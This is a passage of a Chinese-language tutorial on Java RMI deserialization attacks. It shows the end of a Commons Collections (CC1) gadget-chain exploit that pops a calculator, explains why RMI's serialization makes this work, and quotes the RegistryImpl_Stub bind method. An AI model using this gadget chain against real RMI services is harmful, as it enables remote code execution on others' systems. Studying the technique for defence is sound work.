 ```java
        Field f = chainedTransformer.getClass().getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        Object cc1 = constructor.newInstance(Retention.class, ProxyMap);
        return cc1;
    }
}
```

执行客户端后就会执行我们设置好要执行的命令，也就是弹出计算器。之所以会被执行的原因是因为RMI在传输数据的时候，会被序列化，传输序列化后的数据，传输完成后再进行反序列化。那么这时候如果传输一个恶意的序列化数据就会进行反序列化的命令执行。

![rmidemo](img/rmidemo.gif)

客户端在sun.rmi.registry.RegistryImpl_Stub#bind中进行了序列化，这个类是动态生成的，所以在源码中找不到这个类。 

```java
    public void bind(String var1, Remote var2) throws AccessException, AlreadyBoundException, RemoteException {
        try {
            RemoteCall var3 = super.ref.newCall(this, operations, 0, 4905912898345647071L);

            try {
                ObjectOutput var4 = var3.getOutputStream();
                // 序列化数据
                var4.writeObject(var1);
                var4.writeObject(var2);
            } catch (IOException var5) {
                throw new MarshalException("error marshalling arguments", var5);
            }

            super.ref.invoke(var3);
            super.ref.done(var3);
        } catch (RuntimeException var6) {
            throw var6;
        } catch (RemoteException var7) {
            throw var7;
        } catch (AlreadyBoundException var8) {
            throw var8;
        } catch (Exception var9) {
            throw new UnexpectedException("undeclared checked exception", var9);
        }
    }
```